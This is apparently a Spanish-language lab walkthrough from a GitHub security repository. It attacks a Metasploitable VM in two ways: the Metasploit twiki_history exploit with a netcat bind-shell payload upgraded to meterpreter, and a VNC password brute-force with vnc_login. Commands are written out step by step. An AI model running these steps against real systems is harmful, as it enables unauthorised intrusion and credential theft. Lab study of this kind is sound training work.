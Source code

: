 <img width="530" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/6e8d4a26-a125-43bb-8bbc-8a9f8cb56b20"># Ejemplo 1
<br>
  Acerca de:
  <br>
    -La máquina virtual Metasploitable es una versión intencionalmente vulnerable de Ubuntu Linux diseñada para probar herramientas de seguridad y demostrar vulnerabilidades comunes.
<br>

  Buscar vulnerabilidades:
  <br>
    -Ataquaremos al puerto 80
    -Para ello tendremos que usar la herramienta nmap con la que tendremos que poner "nmap -O 192.168.1.10" 192.168.1.10 es la ip que tenermos en la maquina a la cual vamos a atacar 
                                                                                                    
                                                                                                  
![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/190cde79-3c47-46d6-bf70-7bd082a6fa75)

-Iniciaremos la herramienta “metasploit framework”

 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/69871245-d7ca-4a04-8784-f92ce9e4a3fd)

-Después usaremos la herramienta twiki con el comando “use exploit/unix/webapp/twiki_history” en la que tendremos si podemos atacar al puerto que nos interese identificar con el comando “show options”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/ce0918a2-a729-44a7-ba80-33201418d83c)


Indicaremos cual es nuestro objetivo con el comando “set rhosts 192.168.1.10”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/f9c339eb-9c92-41d4-9fa8-5ce7741075f4)
![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/3dbcbd54-3ea7-4570-9b2b-55cc43f3f22a)


 

Para continuar tendremos que usar los siguientes comandos “set payload cmd/unix/bind_netcat”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/3403d27e-5900-4edf-a465-3b93fb1944e6)


 
Tendremos que crear una sesión con “exploit -j” y veremos si se ha creado con “sessions -l”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/fe13f062-4730-4f5d-9a18-cdc48dc267bb)


Tendremos que usar los siguientes comandos “use post/multi/manage/shell_to_meterpreter”, “set sessions 2” y “exploit”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/6b9ecb6b-f268-4db5-b4f0-6a81a3d6c2a0)


Ya podemos entrar en la maquina objetivo con el comando “sessions -i 3” y haremos un “ifconfig para confirmar si hemos entrado bien”
 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/71e9be85-3d5b-4099-b7b7-d8681aec1284)

# Ejemplo 2

<br>
-Atacaremos al puerto P 5900 VNC 

-Comprobaresmos si podemos usar el puerto 5900

<img width="385" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/b864e490-0d1a-4b31-a1ed-166a3c72ac08">

-Iniciaremos la herramienta “metasploit framework”

 ![image](https://github.com/JavierPovedano/Seguridad/assets/117440210/69871245-d7ca-4a04-8784-f92ce9e4a3fd)

-Vemos que opciones tenemos para usar vnc con "search vnc_login" y usamos el 0 con "use 0"

<img width="430" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/72507d21-b71b-4339-9f03-6e95c3d776cd">

-Indicamos el objetivo con "set rhosts 192.168.1.10" y que usuario usaremos con "set rhosts 192.168.1.10"

<img width="265" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/b82cf34d-7359-451f-8a36-57fdb1cfaf0c">

-Lo iniciaremos con "run" y nos dara la contraseña

<img width="307" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/83db20e4-0c63-440e-9655-2c967bc786d2">

-Pondremos en la terminal "vncviewer 192.168.1.10" y ya nos conectara 

<img width="530" alt="image" src="https://github.com/JavierPovedano/Seguridad/assets/117440210/517e517b-094f-4e63-a408-1e136f5e83ad">

